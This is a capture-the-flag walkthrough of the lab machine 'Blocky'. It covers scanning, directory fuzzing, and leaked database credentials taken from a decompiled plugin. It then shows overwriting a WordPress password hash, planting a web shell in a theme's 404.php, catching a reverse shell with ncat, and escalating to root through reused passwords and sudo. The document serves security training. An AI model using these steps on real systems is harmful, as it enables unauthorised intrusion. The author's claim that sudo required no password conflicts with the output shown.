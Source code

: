 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1bbc414d-6e9b-4af8-b042-3de09db132ee)

first enumeration with nmap

```
# Nmap 7.93 scan initiated Thu Jun  1 23:35:37 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 21,80,22,8192,25565 -Pn 10.10.10.37
Nmap scan report for blocky.htb (10.10.10.37)
Host is up (0.13s latency).

PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d62b99b4d5e753ce2bfcb5d79d79fba2 (RSA)
|   256 5d7f389570c9beac67a01e86e7978403 (ECDSA)
|_  256 09d5c204951a90ef87562597df837067 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: WordPress 4.8
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun  1 23:35:54 2023 -- 1 IP address (1 host up) scanned in 17.19 seconds
```
add `blocky.htb` to `/etc/hosts` file.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/195696e6-0cec-4e17-beef-cd52712acaa0)

open blocky.htb on browser and see is running a wordpress service. let's use wpscan to check for any plugins or username.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ddec2a82-b941-4844-85a5-3bb5f1f2b441)

we got no plugin, but a user `Notch`. let's fuzz for hidden dirs.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Blocky]
└─$ ffuf -u "http://blocky.htb/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/common.txt -fc 403,404,500 -e .bak,.php,.txt,.tar,.zip -ic  
                                                                                   
        /'___\  /'___\           /'___\                                          
       /\ \__/ /\ \__/  __  __  /\ \__/         
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\       
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/       
         \ \_\   \ \_\  \ \____/  \ \_\        
          \/_/    \/_/   \/___/    \/_/        
                                                                                   
       v1.5.0-dev                                                                  
________________________________________________

 :: Method           : GET                                                                                                                                             
 :: URL              : http://blocky.htb/FUZZ                                                                                                                          
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt                                                                                      
 :: Extensions       : .bak .php .txt .tar .zip                                                                                                                        
 :: Follow redirects : false                                                                                                                                           
 :: Calibration      : false                                                                                                                                           
 :: Timeout          : 10                                                                                                                                              
 :: Threads          : 40                                                                                                                                              
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500                                                                                            
 :: Filter           : Response status: 403,404,500                                                                                                                    
________________________________________________                                                                                                                       
                                                                                                                                                                       
index.php               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 167ms]    
javascript              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 133ms]
license.txt             [Status: 200, Size: 19935, Words: 3334, Lines: 386, Duration: 176ms]
phpmyadmin              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 145ms]
plugins                 [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 161ms]
wiki                    [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 146ms]
wp-admin                [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 136ms]
wp-content              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 136ms]      
wp-config.php           [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 172ms] 
wp-blog-header.php      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 202ms] 
wp-cron.php             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 142ms]
wp-includes             [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 145ms]
wp-links-opml.php       [Status: 200, Size: 219, Words: 12, Lines: 11, Duration: 148ms]
wp-load.php             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 159ms]    
wp-login.php            [Status: 200, Size: 2397, Words: 147, Lines: 70, Duration: 217ms]   
wp-signup.php           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 175ms]    
wp-trackback.php        [Status: 200, Size: 135, Words: 11, Lines: 5, Duration: 160ms] 
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 187ms]   
:: Progress: [28278/28278] :: Job [1/1] :: 251 req/sec :: Duration: [0:01:54] :: Errors: 0 ::
```
cool we got the hidden dirs, let's checkout the `/plugins` dir 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/9917d8ee-acca-45da-a427-1585aa2353a4)

opening the dir plugins, got to see 2 files. let's download em.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Blocky]
└─$ wget http://blocky.htb/plugins/files/BlockyCore.jar                                         
--2023-06-02 00:13:58--  http://blocky.htb/plugins/files/BlockyCore.jar
Resolving blocky.htb (blocky.htb)... 10.10.10.37
Connecting to blocky.htb (blocky.htb)|10.10.10.37|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 883 [application/java-archive]
Saving to: ‘BlockyCore.jar’

BlockyCore.jar                            100%[====================================================>]  883  --.-KB/s    in 0s      

2023-06-02 00:13:58 (29.9 MB/s) - ‘BlockyCore.jar’ saved [883/883]

                                                                                                                                                                       
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Blocky]
└─$ wget http://blocky.htb/plugins/files/griefprevention-1.11.2-3.1.1.298.jar
--2023-06-02 00:14:07--  http://blocky.htb/plugins/files/griefprevention-1.11.2-3.1.1.298.jar
Resolving blocky.htb (blocky.htb)... 10.10.10.37
Connecting to blocky.htb (blocky.htb)|10.10.10.37|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 532928 (520K) [application/java-archive]
Saving to: ‘griefprevention-1.11.2-3.1.1.298.jar’

griefprevention-1.11.2-3.1.1.298.jar      100%[=======================================================>] 520.44K   552KB/s    in 0.9s    

2023-06-02 00:14:08 (552 KB/s) - ‘griefprevention-1.11.2-3.1.1.298.jar’ saved [532928/532928]
```
got to download the .jar file. let's open it.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5584bc9e-5d3d-4f26-92e2-ced87d5f56f0)

using an online jar decomipler [java-decompiler](http://www.javadecompilers.com/result?currentfile=com/myfirstplugin/BlockyCore.java) decoded the java, and got mysql creds `root:8YsqfCTnvxAUeduzjNSXe22`. now let's move to the `phpmyadmin` dir.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/098ce077-f176-4cfc-a0ef-d7b5f0785a24)

navigate to the `phpmyadmin` dir, got redirected a login page. let's use the cred we got earlier to login.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/72e55567-7805-47b1-900a-2c449f966bd8)

Bull's eye we got in the phpmyadmin.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/906063bf-8b00-4348-b88f-1f865fe77c87)

clicking on the wordpress db and navigating to `wp_users` table. we can see the password hash of the wp_user `Notch`. let's change the password hash. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d6db081f-11ed-44bc-8515-4311bf26301b)

changed the password hash to an md5 hash which is `admin` as the password. now let's go to wp_admin.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/78d0f2d9-ede8-463c-b395-1ee0ca64bb22)

login with creds `Notch:admin`.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/975c6699-10a7-4093-bec1-a915d14c0c93)

Bingo, we are in, let's upload a shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/07f0a91d-a41f-47af-b9aa-72d859647b57)

navigate to the appearance, theme editor button and edit the `404.php` file in the theme. now let's locate the shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e447cec5-8a25-43c1-b335-8e7dff4f1ffe)

locate the shell in the path `http://blocky.htb/wp-content/themes/twentyseventeen/404.php?cmd=id` and we got an RCE. let's spawn a reverse shell.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Blocky]
└─$ ncat -lnvp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.37.
Ncat: Connection from 10.10.10.37:37032.
bash: cannot set terminal process group (1466): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Blocky:/var/www/html/wp-content/themes/twentyseventeen$ id 
id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@Blocky:/var/www/html/wp-content/themes/twentyseventeen$ 
```
Bingo we got a reverse shell.


## Privilege Escalation

```
www-data@Blocky:/home/notch$ su notch
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$
```
switching user to notch using the password got ealier for phpmyadmin, `8YsqfCTnvxAUeduzjNSXe22` boom it worked.

```
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su
root@Blocky:/home/notch# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:/home/notch# 
```
checking for sudo privs, we can see we are allowed to run sudo commands without specifying password. so `sudo su` got us a root shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b12d8e15-805b-4096-a42c-07a950b9fc6f)

and we are through... 😜 had fun yeah ?
